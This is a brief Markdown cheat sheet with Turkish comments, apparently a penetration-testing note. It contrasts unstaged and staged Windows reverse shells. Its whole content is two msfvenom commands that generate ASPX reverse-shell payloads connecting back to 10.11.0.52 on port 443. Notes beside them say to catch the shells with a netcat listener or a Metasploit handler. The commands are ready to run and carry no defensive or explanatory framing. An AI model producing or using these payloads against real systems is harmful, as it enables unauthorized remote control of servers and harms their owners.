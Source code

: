 ### Unstage & Stage Shell

Unstage Shell: (karşılaması nc -nvlp)
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.52 LPORT=443 -f asp > aspunstage-52.aspx
```
Stage Shell: (karşılaması msfconsole handler)
```
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.52 LPORT=443 -f asp > aspstage_52.aspx
```
